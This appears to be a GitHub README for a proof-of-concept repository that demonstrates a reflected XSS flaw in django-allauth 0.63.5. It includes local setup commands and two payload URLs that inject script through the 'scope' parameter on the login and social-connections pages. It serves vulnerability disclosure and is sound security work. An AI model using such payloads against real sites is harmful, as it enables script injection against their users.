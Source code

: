 # Proof of concept for a XSS vulnerability in django-allauth 0.63.5

You can read the full post [here](https://stsewd.dev/posts/xss-in-django-allauth-fb-provider/).

## Requirements

- Python
- [uv](https://docs.astral.sh/uv/getting-started/installation/)

## Set up

```bash
$ git clone https://github.com/stsewd/poc-xss-django-allauth
$ cd poc-xss-django-allauth
$ uv run manage.py migrate
# Create a user to log into the application.
$ uv run manage.py createsuperuser
$ uv run manage.py runserver
```

## Proof of concept

**XSS in login page**

- While logged out, go to ``http://127.0.0.1:8000/accounts/login/?scope=</script><script>alert(document.domain)</script><script>``

**XSS in social connections page**

- Go to ``http://127.0.0.1:8000/accounts/login/``
- Log in with the user you created
- Go to ``http://127.0.0.1:8000/accounts/3rdparty/?scope=</script><script>alert(document.domain)</script><script>``
